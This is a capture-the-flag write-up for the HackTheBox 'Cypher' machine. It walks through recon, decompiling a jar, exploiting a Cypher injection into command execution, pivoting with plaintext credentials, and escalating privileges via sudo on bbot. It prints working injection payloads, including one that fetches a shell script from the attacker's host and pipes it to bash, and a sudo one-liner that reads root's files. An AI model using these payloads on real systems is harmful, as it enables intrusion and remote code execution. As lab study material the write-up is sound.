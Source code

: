 ```yaml
---
title: Cypher
tags:
  - HackTheBox
  - Medium
  - Linux
  - jar
  - Cypher_Injection
  - bbot
date: 2025-03-04T00:00:00Z
---
```

![](Pasted%20image%2020250304095556.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.57 cypher.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- cypher.htb > sC.txt

[redacted]
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   256 be:68:db:82:8e:63:32:45:54:46:b7:08:7b:3b:52:b0 (ECDSA)
|_  256 e5:5b:34:f5:54:43:93:f8:7e:b6:69:4c:ac:d6:3d:23 (ED25519)
80/tcp open  http
|_http-title: GRAPH ASM
```

So I checked its website:

![](Pasted%20image%2020250304095710.png)

I found a weird comment inside the source code:

![](Pasted%20image%2020250304095835.png)

I performed some enumeration with [dirsearch 📁](/notes/tools/dirsearch.md) and got the `/testing` endpoint:

```shell
dirsearch -u http://cypher.htb

[redacted]
[09:57:55] 301 -  178B  - /testing  ->  http://cypher.htb/testing/
```

![](Pasted%20image%2020250304100043.png)

There's a `.jar` inside of it, so I'll download it and extract its content using [Java Decompiler](https://java-decompiler.github.io/):

![](Pasted%20image%2020250304100526.png)

There is a file called `CustomFunctions.class` where there is a code that performs an http request and returns the status code:

![](Pasted%20image%2020250304101817.png)

## Weaponization

This is a nice hint for use to exploit a Cypher injection. I found this interesting blog from [Pentester Land](https://pentester.land/blog/cypher-injection-cheatsheet/) which talks about this and also [Varonis.com](https://www.varonis.com/blog/neo4jection-secrets-data-and-cloud-exploits). So I captured the login request and tried to find a cypher injection:

![](Pasted%20image%2020250304102345.png)

![](Pasted%20image%2020250304102404.png)

> I confirmed the injection :D

## Exploitation

So now what I need to do is to call the `getUrlStatusCode()` function decompiled from the jar to inject a malicious payload and gain RCE:

```shell
{"username":"a' return h.value as a UNION CALL custom.getUrlStatusCode(\"10.10.14.5:666#\") YIELD statusCode AS a RETURN a;//","password":"a"}
```

![](Pasted%20image%2020250304103457.png)

![](Pasted%20image%2020250304103512.png)

Got a callback, so now I'll create a bash reverse shell on my machine, then create a server, upload the shell to the machine using the previous PoC and piping it to bash:

```shell
{"username":"a' return h.value as a UNION CALL custom.getUrlStatusCode(\"cypher.htb;curl 10.10.14.5:8090/shell.sh|bash;#\") YIELD statusCode AS a RETURN a;//","password":"a"}
```

> Got a reverse shell :D

![](Pasted%20image%2020250304103841.png)

## Pivoting

I got a shell as `neo4j` so now I'll try to become user `graphasm`. Inside of `/home/graphasm` there is a file called `bbot_preset.yml` which contains the following credentials: `neo4j:cU4btyib.20xtCMCXkBmerhK`.

> I can now login and get user flag

### User flag

![](Pasted%20image%2020250304104754.png)

## Privilege Escalation

I made a quick search about **bbot** and found [bbot's github](https://github.com/blacklanternsecurity/bbot). Then i made a quick search of where the binary was installed:

```shell
which bbot
/usr/local/bin/bbot
```

So then I executed the help of the program and got three interesting flags:

```shell
/usr/local/bin/bbot -h

[redacted]
-c [CONFIG ...], --config [CONFIG ...]  Custom config options in key=value format: e.g. 'modules.shodan.api_key=1234'

-y, --yes             Skip scan confirmation prompt

-d, --debug           Enable debugging

--dry-run             Abort before executing scan
```

So combining all I can read root flag:

```shell
sudo /usr/local/bin/bbot -cy /root/root.txt -d --dry-run
```

### Root flag

![](Pasted%20image%2020250304110207.png)

==Machine pwned!==